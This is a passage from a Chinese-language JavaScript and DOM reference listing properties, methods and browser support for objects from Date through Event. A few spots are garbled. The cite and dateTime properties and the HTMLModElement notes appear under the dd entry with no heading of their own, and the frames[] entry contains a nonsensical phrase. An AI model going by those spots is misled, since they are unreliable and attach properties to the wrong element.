- **toGMTString()** 此方法已弃用；请改用 **toUTCString()**。返回相对于 GMT 的日期字符串表示。（IE3+ (JScript 1.0+)，MOZ，N2+ (JavaScript 1.0+)，ECMA Edition 1）
- **toLocaleString()** 返回一个字符串，表示根据操作系统定义的本地惯例格式化的日期。例如，美国使用月/日/年，而欧洲使用日/月/年。返回值不应用于计算，而是用于向用户显示。（IE3+ (JScript 1.0+)，MOZ，N2+ (JavaScript 1.0+)，ECMA Edition 1）
- **toString()** 将日期作为字符串返回。（IE4+ (JScript 2.0+)，MOZ，N3+ (JavaScript 1.1+)，ECMA Edition 1）
- **toUTCString()** 返回按 UTC 格式化的日期字符串。（IE4+ (JScript 3.0+)，MOZ，N4.06+ (JavaScript 1.3+)，ECMA Edition 1）
- **UTC(year, month, day [, hours [, mins [, secs [, ms]]]])** 此静态方法返回一个数值，表示从纪元到由数值参数给出的日期之间的毫秒数。任何超出其预期范围的参数都会导致日期相应调整。（IE3+ (JScript 1.0+)，MOZ，N2+ (JavaScript 1.0+)，ECMA Edition 1）
- **valueOf()** 返回一个数值，表示日期与纪元之间的毫秒差。（IE4+ (JScript 2.0+)，MOZ，N3+ (JavaScript 1.1+)，ECMA Edition 1）

#### 支持情况

在 IE3+ (JScript 1.0+)、Mozilla、N2+ (JavaScript 1.0+)、ECMAScript Edition 1 中受支持。

#### 注意事项

**Date** 对象在较旧的浏览器中存在严重问题。作者建议避免在 IE4 和 Netscape 4 之前的浏览器中使用，除非是最基本的任务。

**Date** 对象不能直接使用 **for/in** 进行枚举。

### dd, HTMLElement (文档对象)

此对象对应于文档中的 **\<dd\>**（定义列表中的定义）标签。可以通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

此对象仅具有本节开头 **通用 HTML 元素** 对象中定义的属性。

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

#### 注意事项

你可能会看到像 Mozilla 这样的浏览器将此对象标识为 **HTMLSpanElement**，尽管 DOM 中不存在这样的对象。正确的标识是 **HTMLElement**，不过 Internet Explorer 仅将其标识为通用对象。

#### 属性

除了本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **cite** 包含修改引用的 URL 的字符串。（IE6+，MOZ/N6+，DOM1）
- **dateTime** 包含修改日期的字符串。（IE6+，MOZ/N6+，DOM1）

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

#### 注意事项

此对象与关联 `<ins>` 标签的对象相同，因为在 DOM 下两者都是 **HTMLModElement** 对象。我们将其分开列出，因为熟悉 (X)HTML 的开发者会认为它们具有不同的含义。

### dfn, HTMLElement (文档对象)

此对象对应于文档中的 `<dfn>`（术语定义）标签。它具有本节开头 **通用 HTML 元素** 对象中列出的属性、方法和事件。可以通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

此对象仅具有本节开头 **通用 HTML 元素** 对象中定义的属性。

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

#### 注意事项

你可能会看到像 Mozilla 这样的浏览器将此对象标识为 **HTMLSpanElement**，尽管 DOM 中不存在这样的对象。正确的标识是 **HTMLElement**，不过 Internet Explorer 仅将其标识为通用对象。

### dir, HTMLDirectoryElement (文档对象)

此对象对应于文档中的 `<dir>`（目录列表）元素。它具有本节开头 **通用 HTML 元素** 对象中列出的属性、方法和事件。可以通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

除了本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **compact** 布尔值，指示列表是否应紧凑渲染。（IE6+，MOZ/N6+，DOM1）

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

### div, HTMLDivElement (文档对象)

此对象对应于文档中的 **<div>**（块级容器）元素。可以通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

除了本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **align** 指定元素对齐方式的字符串。（IE4+，MOZ/N6+，DOM1）
- **dataFld** 指定数据源的哪个字段绑定到元素的字符串。（IE4+）
- **dataFormatAs** 指示元素如何处理提供给它的数据的字符串。（IE4+）
- **dataSrc** 包含数据绑定数据源的字符串。（IE4+）
- **noWrap** 布尔值，指示浏览器是否不应执行自动换行。（IE4+）

#### 方法

除了本节开头 **通用 HTML 元素** 对象中的方法外，此对象还具有以下方法：

- **doScroll([*action*])** 将 **<div>** 块的顶部滚动到可视区域。如果指定了 *action*，则必须是几个预定字符串之一，例如 "left" 或 "right"，它们可以对滚动条操作进行细粒度控制。有关完整详情，请参阅 MSDN。（IE5+）

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

### dl, HTMLDListElement (文档对象)

此对象对应于文档中的 **<dl>**（定义列表）标签。可以通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

除了本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **compact** 布尔值，指示是否应通过删除列表对象之间的额外空间来压缩列表。（IE4+，MOZ/N6+，DOM1）

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持情况

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

### Document (文档对象)

**Document** 提供对当前加载的 HTML 文档内容的访问。在早期的浏览器中，这主要是一个浏览器对象，因为没有标准规定其结构。随着 DOM 的兴起，该对象已变得标准化，尽管现代浏览器继续提供大量专有功能。

页面中的 HTML 元素在 **Document** 下表示为对象。每个这样的元素对象都有来自各种来源的属性和方法。其中最明显的是专有浏览器功能，但元素也从 DOM **Node** 接口、DOM **HTMLElement** 定义，以及可能更具体的 DOM 对象继承属性和方法。虽然属性的具体来源通常不是特别重要，只要该属性得到良好支持，但读者应该意识到每个元素对象的结构源自多种来源。

**Document** 中包含的集合通常是只读的，尽管集合中的特定元素通常是可变的。

#### 属性

- **activeElement** 引用当前获得焦点的元素相关对象。此属性为只读。（IE4+）
- **alinkColor** 包含已激活链接颜色的字符串。（IE3+，MOZ，N2+，DOM0）
- **anchors[]** 页面中 **Anchor** 对象的集合（对应于 `<a name="...">...</a>`）。该集合是只读的，尽管单个锚点可以修改，并且可以使用 DOM 直接添加或删除锚点，这最终会影响数组的内容。（IE3+，MOZ，N2+，DOM1）
- **applets[]** 页面中 **Applet** 对象的集合（对应于 `<applet>` 元素）。与其他 **document** 集合一样，可以操作单个对象，尽管数组本身是只读的。（IE4+，MOZ，N3+，DOM1）
- **bgColor** 包含文档背景颜色的字符串。（IE3+，MOZ，N2+，DOM0）
- **body** 引用文档的 `<body>` 或 `<frameset>` 元素对象。（IE3+，MOZ/N6+，DOM1）
- **charset** 包含文档字符集的字符串。（IE4+）
- **characterSet** 包含文档字符集的字符串。（MOZ/N6+）
- **classes[]** 用于访问 CSS 类样式的 Netscape 4 特定集合。（仅限 NS4）
- **compatMode** 布尔值，指示文档是否处于标准兼容模式。（IE6+）
- **cookie** 存储浏览器为文档域名保存的 Cookie 的字符串。设置到此属性的值会自动被浏览器解析为 Cookie。（IE3+，MOZ，N2+，DOM1）
- **defaultCharset** 只读字符串，包含客户端的默认字符集。（IE4+）
- **designMode** 指定设计模式是 *开* 还是 *关* 的字符串。当 *开* 时，用户可以双击或以其他方式激活对象并编辑其 HTML。（IE5+，MOZ/N7+）
- **dir** 包含文档内文本方向的字符串。（IE5+，MOZ/N6+，DOM0）
- **doctype** 引用文档的 **DocumentType** 对象。（IE6+，MOZ/N6+，DOM1 Core）
- **documentElement** 引用文档对象层次结构的根节点。（IE5+，MOZ/N6+，DOM1 Core）
- **domain** 包含获取文档的域名的字符串。可以设置为更通用的域名（例如，从 www.javascriptref.com 到 javascriptref.com）以绕过同源策略，但通常不可修改。（IE4+，MOZ，N3+，DOM1）
- **embeds[]** 文档中所有 **Embed** 对象的集合（对应于 `<embed>` 元素）。与其他 **document** 集合一样，可以操作单个对象，尽管数组本身是只读的。（IE4+，MOZ，N3+）
- **expando** 布尔值，决定是否可以向对象添加实例属性。（IE4+）
- **fgColor** 包含文档字体颜色的字符串。（IE3+，MOZ，N2+，DOM0）
- **fileCreatedDate** 只读字符串，包含文档创建日期。（IE4+）
- **fileModifiedDate** 只读字符串，包含文档修改日期。（IE4+）
- **fileSize** 只读数字（始终是整数值），表示文档的文件大小（以字节为单位）。（IE4+）
- **forms[]** 文档中 **Forms** 的集合（`<form>` 元素）。与其他 **document** 集合一样，可以操作单个对象，尽管数组本身是只读的。（IE4+，MOZ，N3+）


##### document对象属性

-   **frames[]** 文档中的 **Frames** 集合（<**frame**> 和 <**iframe**> 元素）。与其他 **document** 集合类似，可以操作单个对象，但数组本身是只读的压力很大。(IE4+)

-   **height** 只读属性，以像素为单位保存文档内容的高度，包括可能被滚动到屏幕外的部分。(MOZ, N4+)

-   **ids[]** 一个 Netscape 4 特有的集合，用于访问由元素的 **id** 属性设置的样式属性。(仅 NS4)

-   **images[]** 文档中的 **Images** 集合（<**img**> 元素）。与其他 **document** 集合类似，可以操作单个对象，但数组本身是只读的。(IE4+, MOZ, N3+, DOM1)

-   **implementation** 一个具有 **hasFeature(feature, level)** 方法的对象，返回一个布尔值，指示浏览器是否支持字符串 *feature* 中给定的、且 DOM 级别为字符串 *level* 中传递的功能。*feature* 的有效值是 CSS, Events, HTML, HTMLEvents, MouseEvents, Range, StyleSheets, Views, 和 XML。*level* 的有效值是 DOM 级别，例如 "1.0" 或 "2.0"。由于浏览器对 DOM 功能的支持参差不齐，该方法返回的值通常不准确。(IE6+, MOZ/N6+, DOM1 Core)

-   **lastModified** 只读字符串，包含文档最后修改的日期。(IE3+, MOZ, N2+, DOM0)

-   **layers[]** 一个 Netscape 4 特有的 **Layers** 集合（<**layer**> 元素）。请注意，Netscape 也会将具有 CSS 定位的 <**div**> 放入此数组中。(仅 NS4)

-   **linkColor** 包含文档中链接颜色的字符串。(IE3+, MOZ, N2+, DOM0)

-   **links[]** 文档中的 **Links** 集合（<**a href="...">...</a**> 元素）。与其他 **document** 集合类似，可以操作单个对象，但数组本身是只读的。(IE3+, MOZ, N2+, DOM1)

-   **location** 一个 **Location** 对象，包含文档的 URL。不应设置此属性。请改用 **window.location**。(IE2+, N3-4)

-   **media** 包含文档目标媒体类型的字符串。(IE5.5+)

-   **mimeType** 只读字符串，包含关于文档类型的信息（*不是* 真正的 MIME 类型！）。(IE5+)

-   **namespaces[]** 文档的 XML **namespace** 对象的只读集合。(IE5.5+)

-   **parentWindow** 只读引用，指向包含该文档的 **Window**。(IE4+)

-   **plugins[]** 浏览器中安装的 **Plugin** 对象的集合。在 Internet Explorer 中，这是 **embeds[]** 集合的同义词。(IE4+, N4+)

-   **protocol** 包含用于检索文档的协议的字符串（其全名，而非 "http"）。(IE4+)

-   **referrer** 只读字符串，包含引用文档的 URL。如果页面是直接加载或不是从服务器运行的，则 **referrer** 不会被设置。(IE3+, MOZ, N2+, DOM1)

-   **scripts[]** 文档中的 **script** 对象的只读集合（<**script**> 元素）。请注意，您可能可以修改脚本及其内容，但自引用脚本通常是不合适的，应谨慎使用。(IE4+)

-   **security** 只读字符串，包含有关文档证书的信息。(IE5.5+)

-   **selection** 只读引用，指向表示当前选中文本的 **selection** 对象。(IE4+)

-   **styleSheets[]** 文档中的 **styleSheets** 集合（<**style**> 元素）。与其他 **document** 集合类似，可以操作单个对象，但数组本身是只读的。(IE4+, MOZ/N6+)

-   **tags[]** 一个 Netscape 4 特有的集合，用于访问特定 HTML 标签的样式属性。(仅 NS4)

-   **title** 包含对象标题的字符串（<**title**> 的内容）。(IE3+, MOZ, N2+, DOM1)

-   **URL** 包含文档 URL 的字符串；传统上，是 **location.href** 的别名。(IE4+, MOZ, N2+)

-   **URLUnencoded** 只读字符串，保存 **URL** 属性的 URL 未编码版本。(IE5.5+)

-   **vlinkColor** 包含已访问链接颜色的字符串。(IE3+, MOZ, N2+, DOM0)

-   **width** 只读属性，以像素为单位保存文档所有内容的宽度（包括可能被滚动到屏幕外的部分）。(MOZ, N4+)

-   **XMLDocument** 对文档暴露的 XML 文档对象模型的顶层节点的引用。(IE5+)

-   **XSLDocument** 只读引用，指向文档的 XSL 文档对象。(IE5+)

#### 方法

-   **captureEvents(eventMask)** 指示对象捕获位掩码 *eventMask* 中给出的事件。(MOZ, N4+)

-   **clear()** 据称清除文档内容，但实际上会崩溃浏览器或什么都不做。不应使用此方法。(IE3+, MOZ, N2+)

-   **close()** 关闭文档的输出流并显示写入的内容。(IE3+, MOZ, N2+, DOM1)

-   **contextual(context1 [, context2, ...] style)** 一个 Netscape 4 特有的方法，通过概念选择标签以进行样式设置。很少使用，现已弃用。(仅 N4)

-   **createAttribute(name)** 返回一个由字符串 *name* 指定名称的新属性节点。(IE6+, MOZ/N6+, DOM1 Core)

-   **createCDATASection(data)** 创建一个值为 *data* 的 CDATA 节。(MOZ/N6+, DOM1 Core)

-   **createComment(data)** 返回一个文本内容由字符串 *data* 指定的新注释节点。(IE6+, MOZ/N6+, DOM1 Core)

-   **createDocumentFragment()** 创建一个新的、空的 **DocumentFragment**。(MOZ/N6+, IE5+, DOM1 Core)

-   **createElement(tagName)** 返回一个与字符串 *tagName*（例如 "P"）相对应的新元素对象。在 HTML 的情况下，大多数实现不关心大小写，但开发人员应该意识到传递给方法的 "p" 与 "P" 的区别。(IE4+, MOZ/N6+, DOM1 Core)

-   **createEntityReference(name)** 创建一个具有给定名称的 XML 实体。(MOZ/N7+, DOM1 Core)

-   **createEventObject([eventObj])** 创建并返回一个新的 **Event** 实例，以传递给 **fireEvent()**。如果提供了 **Event** 实例 *eventObj*，则其属性将被克隆到新事件中。否则，必须手动填充它们。(IE5.5+)

-   **createProcessingInstruction(target, data)** 创建一个具有给定目标和数据的 XML 处理器特定指令。(MOZ/N7+, DOM1 Core)

-   **createStyleSheet([url [, index]])** 从字符串 *url* 中的 URL 找到的样式表创建一个新的 **styleSheet** 对象，并将其插入到文档的索引 *index* 处。如果省略 *url*，则添加一个空样式表。如果省略 *index*，则将新样式表放在末尾。(IE4+)

-   **createTextNode(data)** 返回一个值由字符串 *data* 指定的新文本节点。(IE5+, MOZ/N6+, DOM1 Core)

-   **elementFromPoint(x, y)** 返回在文档中像素位置 *(x,y)* 处找到的元素对象。(IE4+)

-   **execCommand(command [, UIFlag][, parameter])** 允许在文档上执行与 MSHTML 编辑器相关的各种操作。这可以允许创建基于浏览器的 HTML 编辑器。有关此非常专有的技术的详细信息，请参阅 Microsoft 文档。(IE4+)

-   **focus()** 将焦点赋予文档，并触发其 **onfocus** 处理程序。(IE5.5+)

-   **getElementById(id)** 返回 **id** 等于字符串 *id* 的元素，如果不存在则返回 **null**。某些实现也可能查找具有设置为 *name* 的 **name** 属性的标签相关的对象，但不应作此假设。(IE5+, MOZ/N6+, DOM1)

-   **getElementsByName(name)** 检索 **name** 属性等于字符串 *name* 的元素集合。在某些浏览器中，您还会找到 **id** 值设置为 *name* 的标签，但是，考虑到标签不应共享 **id** 值，因此不应作此假设。此方法旨在支持在旧版 HTML 版本下可能共享 **name** 属性值的表单字段和其他 HTML 元素。(IE5+, MOZ/N6+, DOM1 Core)

-   **getElementsByTagName(tagname)** 检索对应于字符串 *tagname* 中给定标签的元素集合。值为 "" 时检索所有标签。(IE5+, MOZ/N6+, DOM1)

-   **getSelection()** 返回用户当前选中的任何文本。(N4+)


##### isSupported(_feature_ [, _version_]) 返回一个布尔值，指示参数字符串中给出的功能和版本是否受支持。(MOZ/N6+, DOM2)

##### open() 打开文档以进行写入，如果文档已有内容则先清除。使用此方法通常不必要。Internet Explorer 实现了一个更复杂版本的此方法。(IE3+, MOZ, N2+, DOM1)

##### open([_mimeType_ [, _name_] [, _features_ ] [, _replace_]]) 打开文档以进行写入。使用此方法通常不必要，且使用时通常没有参数。然而，当使用时，*mimeType* 参数是一个字符串，指定将要写入的数据类型，*name* 指示文档的新名称（例如，用于链接目标），*features* 是一个字符串，指示文档应具有的类窗口特性，*replace* 是一个可选的布尔值，当为 **true** 时，会在浏览器的历史记录中替换文档，而不是创建新条目。完整详情请参阅 MSDN。(IE3+)

##### queryCommandEnabled, queryCommandIndeterm, queryCommandState, queryCommandSupported, queryCommandValue 这些方法与 Internet Explorer 中的 **execCommand()** 方法相关，该方法操作 MSHTML 编辑器控件。这些方法指示命令是否允许、启用以及其当前状态。有关此非常专有技术的详细信息，请参阅 Microsoft 在 MSDN 上的文档。(IE4+)

##### recalc([_forceAll_]) 强制重新计算文档中的动态属性。如果 *forceAll* 为 **true**，则所有动态属性都会被重新计算（而不仅仅是那些已更改的）。(IE5+)

##### releaseEvents(_eventMask_) 指示对象停止捕获位掩码 *eventMask* 中给出的事件。仅适用于 Netscape 风格的事件捕获。(N4+)

##### routeEvent(_event_) 将 **Event** 实例 *event* 沿着层次结构正常传递。用于拒绝处理事件。仅适用于 Netscape 风格的事件捕获。(N4+)

##### selection 对 **selection** 对象的引用，该对象包含有关文档中当前选定对象的信息。(IE4+)

##### write(_str1_ [, _str2, ..._]) 将文本参数写入文档。(IE3+, MOZ, N2+, DOM1)

##### writeln(_str1_ [, _str2, ..._]) 将文本参数写入文档，并在输出末尾添加换行符。(IE3+, MOZ, N2+, DOM1)

#### 支持

在所有主要浏览器中受支持：IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), DOM。

### dt, HTMLElement (文档对象)

此对象对应于文档中的 `<dt>`（定义列表中的术语定义）标签。可以通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

除了本节开头的 **通用 HTML 元素** 对象中的属性外，此对象还有以下属性：

- **noWrap** 布尔值，指示浏览器是否不应换行显示该项。(IE4+)

#### 方法

此对象只有本节开头的 **通用 HTML 元素** 对象中列出的方法。

#### 支持

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

#### 备注

你可能会看到像 Mozilla 这样的浏览器将此对象标识为 **HTMLSpanElement**，尽管 DOM 中不存在这样的对象。正确的标识是 **HTMLElement**，尽管 Internet Explorer 仅将其表示为通用对象。

### em, HTMLElement (文档对象)

此对象对应于文档中的 **<em>**（强调文本）元素。可以通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

此对象只有本节开头的 **通用 HTML 元素** 对象中定义的属性。

#### 方法

此对象只有本节开头的 **通用 HTML 元素** 对象中列出的方法。

#### 支持

在 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中受支持。

#### 备注

你可能会看到像 Mozilla 这样的浏览器将此对象标识为 **HTMLSpanElement**，尽管 DOM 中不存在这样的对象。Internet Explorer 仅将其表示为通用对象。

### embed (专有文档对象)

此文档对象对应于文档中的 **<embed>**（嵌入对象）元素。可以通过标准 DOM 方法（如 **document.getElementById()**）或更常见地通过 **Document** 的 **embeds[]** 数组访问这些对象。

#### 属性

除了本节开头的 **通用 HTML 元素** 对象中的属性外，此对象还具有此处列出的属性。它还将具有用于处理数据的插件公开的任何属性（请参阅插件供应商文档）。

- **height** 整数，指定嵌入对象的高度（默认单位为像素）。(IE4+, MOZ/N6+)
- **hidden** 布尔值，指示对象是否隐藏（不可见）。(IE4+)
- **name** 字符串，保存元素的 **name** 属性。(IE4+, MOZ/N6+)
- **palette** 只读字符串，指定对象使用的调色板（例如 "foreground"）。(IE4+ Windows)
- **pluginspage** 只读字符串，指定包含所需插件信息的页面的 URL（以防未安装）。(IE4+, MOZ/N6+)
- **src** 字符串，指定嵌入对象的 URL。(IE4+, MOZ/N6+)
- **type** 字符串，指定对象的 MIME 类型。(MOZ/N6+)
- **units** 字符串，指定对象高度和宽度的单位（"em" 或 "px"）。(IE4+)
- **width** 指定对象的宽度（默认单位为像素）。(IE4+, MOZ/N6+)

#### 方法

此元素具有本节开头的 **通用 HTML 元素** 对象中列出的方法。它还具有用于处理数据的插件公开的任何方法（请咨询插件供应商文档）。

#### 支持

在 Internet Explorer 4+、Mozilla、Netscape 3（原始支持——仅适用于处理数据的插件公开的属性和方法）、Netscape 4+ 中受支持。

#### 备注

尽管在公共网站上比 Java 小程序更常见，但 **\<embed\>** 标签和相关的 embed 对象在本文撰写时并非 W3C 标准的一部分。

### Enumerator (内置对象)

此专有 Microsoft 对象的实例用于遍历集合中的项目。由于 Internet Explorer 中的集合项目不能在 **for/in** 循环中枚举，且无法直接访问，因此你需要使用此对象来确保正确遍历集合中的所有项目。

#### 构造函数

```
var *instanceName* = new Enumerator(*collection*);
```

构造函数返回一个新的 **Enumerator** 实例，可用于遍历 *collection* 给定的所有项目。*collection* 的典型值是 **document.all** 以及 **getElementsByTagName()** 等方法返回的集合。

#### 属性

无。

#### 方法

- **atEnd()** 返回一个布尔值，指示当前项目是否是集合中的最后一个。(IE4+)
- **item()** 返回当前项目，如果集合为空则返回 **undefined**。(IE4+)
- **moveFirst()** 将集合中的当前项目重置为第一个项目。(IE4+)
- **moveNext()** 将当前项目移动到集合中的下一个项目。(IE4+)

#### 支持

在 IE4+ (JScript 3.0+) 中受支持。

#### 备注

这 *不是* ECMAScript 对象。它是 Microsoft 专有的内置对象。

### Error (内置对象)

每当发生运行时错误或抛出异常时，解释器会创建一个 **Error** 实例，程序员可以捕获该实例。此对象提供有关所发生错误的信息，包括问题的描述以及错误发生的行号。程序员也可以实例化 **Error** 对象，以创建可以 **throw** 的自定义异常。

实际上有几种类型的错误对象，但每种都派生自基本的 **Error** 对象，并且所有都具有相同的结构。其他错误对象是 **EvalError**、**RangeError**、**ReferenceError**、**SyntaxError**、**TypeError** 和 **URIError**，符合 ECMAScript 第 3 版的浏览器应提供除 **Error** 本身之外的所有六种构造函数。但请注意，鼓励程序员使用 **Error** 对象，并将六种“原生错误”类型留作解释器专用。

#### 构造函数

```
var *instanceName* = new Error(*message*);
```


#### 属性

-   **constructor** 指向创建该对象的构造函数对象的引用。(IE5+ (JScript 5.0+), MOZ/N6+ (JavaScript 1.5+), ECMA Edition 3)
-   **description** 描述异常或错误性质的字符串。(IE5+ (JScript 5.0+))
-   **fileName** 指示抛出异常的文档 URL 的字符串。(MOZ/N6+ (JavaScript 1.5+))
-   **lineNumber** 生成异常的代码行号。(MOZ/N6+, (JavaScript 1.5+))
-   **message** 描述异常或错误性质的字符串。(IE5.5+ (JScript 5.5+), MOZ/N6+ (JavaScript 1.5+), ECMA Edition 3)
-   **name** 包含错误类型的字符串，例如，"Error"、"URIError" 或 "SyntaxError"。(IE5.5+ (JScript 5.5+), MOZ/N6+ (JavaScript 1.5), ECMA Edition 3)
-   **number** 指示 Microsoft 专有异常错误编号的数值。实验表明，该值经常与 Microsoft 文档不符，因此应极其谨慎地使用。(IE5+ (JScript 5.0+))
-   **stack** 包含堆栈跟踪信息的字符串。该跟踪提供了关于创建错误时上下文的执行信息。(MOZ/N6+)
-   **prototype** 指向对象原型的引用。(IE5+ (JScript 5.0+), MOZ/N6+ (JavaScript 1.5+), ECMA Edition 3)

#### 方法

-   **toString()** 返回与错误对应的错误字符串。(IE5+ (JScript 5.0+), MOZ/N6+ (JavaScript 1.5+), ECMA Edition 3)

#### 支持

支持 IE5+ (JScript 5.0+)、MOZ/N6+ (JavaScript 1.5+)、ECMAScript Edition 3。

#### 备注

Internet Explorer 5.0 对该对象的支持参差不齐。因此，作者建议将其使用限制在兼容 ECMAScript Edition 3 的浏览器中，例如 Internet Explorer 5.5+、Mozilla 和 Netscape 6+。

### Event（浏览器对象）

**Event** 对象的实例可以通过三种不同的方式提供给事件处理程序。在 IE 中，该实例被隐式设置为名为 **event** 的 **Window** 属性，因此可以在整个文档中简单地作为 *event* 访问。在 Netscape 和 DOM2 中，通过 HTML 属性绑定到元素的处理程序中，**Event** 可以作为 *event* 使用。通过 Netscape 或 DOM 方法绑定，或通过 JavaScript 设置适当属性的处理程序，则会被传递 **Event** 实例作为参数。

并非所有事件都定义了全部属性；例如，与键盘事件对应的 **Event** 实例不包含鼠标位置属性。

#### 属性

-   **ABORT, BLUR, CHANGE, CLICK, DBLCLICK, DRAGDROP, ERROR, FOCUS, KEYDOWN, KEYPRESS, KEYUP, LOAD, MOUSEDOWN, MOUSEMOVE, MOUSEOUT, MOUSEOVER, MOUSEUP, MOVE, RESET, RESIZE, SELECT, SUBMIT, UNLOAD** 与每个事件对应的静态位掩码，用于 Netscape 的事件捕获函数。(N4+)
-   **ALT_MASK, CTRL_MASK, META_MASK, SHIFT_MASK** 与每个按键对应的静态位掩码。(N4+)
-   **altKey** 布尔值，指示在事件期间 ALT 键是否被按下。(IE4+, MOZ/N6+, DOM2)
-   **altLeft** 布尔值，指示在事件期间左 ALT 键是否被按下。(IE5.5+ Windows only)
-   **Banner** 与高级流重定向器 (ASX) 相关的功能。详见 MSDN。(IE6+)
-   **boundElements[]** 提供数据绑定相关功能。参见 MSDN 文档。(IE4+)
-   **bookmarks[]** 提供数据绑定相关功能。参见 MSDN 文档。(IE4+)
-   **bubbles** 布尔值，指示事件是否冒泡。(MOZ/N6+, DOM2)
-   **button** 整数，指示在事件期间按下了哪些鼠标按键。在 IE 中，值为 0（无按键）、1（左键）、2（右键）、3（左键和右键）、4（中键）、5（左键和中键）、6（右键和中键）或 7（三个键）。在 MacOS 的 IE 中行为会有所不同。在 Netscape 6 中，值为 1（主鼠标按键）、2（中键）或 3（右键）。(IE4+, MOZ/N6+, DOM2)
-   **cancelable** 布尔值，指示事件是否可取消。(MOZ/N6+, DOM2)
-   **cancelBubble** 布尔值，指示当前处理程序执行完毕后，事件是否应继续向上冒泡到对象层级更高层。(IE4+, MOZ/N6+)
-   **charCode** 键盘相关事件期间按下的键的 ASCII 值。(MOZ/N6+)
-   **clientX** 鼠标指针相对于浏览器窗口客户区的水平坐标（像素）。在 IE 中不考虑用户滚动。在 Netscape 中只读。(IE4+, MOZ/N6+, DOM2)
-   **clientY** 鼠标指针相对于浏览器窗口客户区的垂直坐标（像素）。在 IE 中不考虑用户滚动。在 Netscape 中只读。(IE4+, MOZ/N6+, DOM2)
-   **contentOverflow** 只读布尔值，指示在处理当前 **LayoutRect** 对象后文档是否包含额外内容。仅包含在 **onlayoutcomplete** 事件中。(IE5.5+)
-   **ctrlKey** 布尔值，指示在事件期间 CTRL 键是否被按下。在 Netscape 中只读。(IE4+, MOZ/N6+, DOM2)
-   **ctrlLeft** 布尔值，指示在事件期间左 CTRL 键是否被按下。(IE5.5+ Windows only)
-   **currentTarget** 只读引用，指向当前正在处理事件的元素的处理程序。(MOZ/N6+, DOM2)
-   **data** Netscape 4 特有的字符串数组，包含被拖放对象的 URL。(N4 Only)
-   **dataFld** 提供数据绑定相关功能。参见 Microsoft 文档。(IE4+)
-   **dataTransfer** 一个 **dataTransfer** 对象，为拖放事件提供功能。(IE5+)
-   **detail** 指示鼠标按钮被点击的次数（如果有的话）。(MOZ/N6+, DOM2)
-   **eventPhase** 只读数值，指示事件当前所处的阶段（1 表示捕获，2 表示目标，3 表示冒泡）。(MOZ/N6+, DOM2)
-   **fromElement** 指向激活或鼠标指针正在离开的对象的引用。(IE4+)
-   **keyCode** 包含一个整数，表示键的 Unicode 值（用于键盘事件）。在 Netscape 6 中，该值为 ASCII。在 Netscape 浏览器中也是只读的。(IE4+, MOZ/N6+)
-   **layerX** 此只读属性保存光标相对于事件发生所在层的水平位置（像素）。如果事件是 **resize**，此值保存对象的宽度。在 Mozilla/Netscape 6+ 中，此值相对于事件目标元素所依据定位的对象（例如，**\<body\>**）。(N4+, MOZ/N6+)
-   **layerY** 此只读属性保存光标相对于事件发生所在层的垂直位置（像素）。如果事件是 **resize**，此值保存对象的高度。在 Mozilla/Netscape 6+ 中，此值相对于事件目标元素所依据定位的对象（例如，**\<body\>**）。(N4+, MOZ/N6+)
-   **metaKey** 只读布尔值，指示在事件期间 meta 键是否被按下。(MOZ/N6+, DOM2)
-   **modifiers** Netscape 4 特有的只读位掩码，指示在事件期间哪些修饰键被按住。该位掩码是静态属性 **ALT_MASK**、**CONTROL_MASK**、**META_MASK** 和 **SHIFT_MASK** 的位组合。(N4 Only)
-   **nextPage** 提供打印模板相关功能。参见 Microsoft 文档。(IE5.5+)
-   **offsetX** 鼠标相对于事件目标对象的 *x* 坐标（像素）。(IE4+)
-   **offsetY** 鼠标相对于事件目标对象的 *y* 坐标（像素）。(IE4+)
-   **originalTarget** 指向事件原始目标的引用。(MOZ/N6+)
-   **pageX** 只读属性，包含事件发生时相对于页面的水平位置（像素）。(N4+, MOZ/N6+)
-   **pageY** 只读属性，包含事件发生时相对于页面的垂直位置（像素）。(N4+, MOZ/N6+)
-   **propertyName** 包含触发 **onpropertychange** 事件的属性名称的字符串。(IE5+)
-   **qualifier** 提供数据绑定相关功能。参见 Microsoft 文档。(IE4+)
-   **reason** 提供数据绑定相关功能。参见 Microsoft 文档。(IE4+)
-   **recordset** 提供数据绑定相关功能。参见 Microsoft 文档。(IE4+)
-   **relatedTarget** 指向与事件相关的节点的引用。例如，在 **mouseover** 上，它引用鼠标离开的节点；在 **mouseout** 上，它引用鼠标移动到的节点。该属性是只读的。(MOZ/N6+, DOM2)
-   **repeat** 布尔值，指示在 **onkeydown** 事件期间键是否持续重复。(IE5+)
-   **returnValue** 布尔值，规定事件处理程序的返回值（优先于 **return** 语句）。(IE4+)
-   **saveType** 字符串，在 **oncontentsave** 期间保存剪贴板类型（"HTML" 或 "TEXT"）。(IE5.5+)
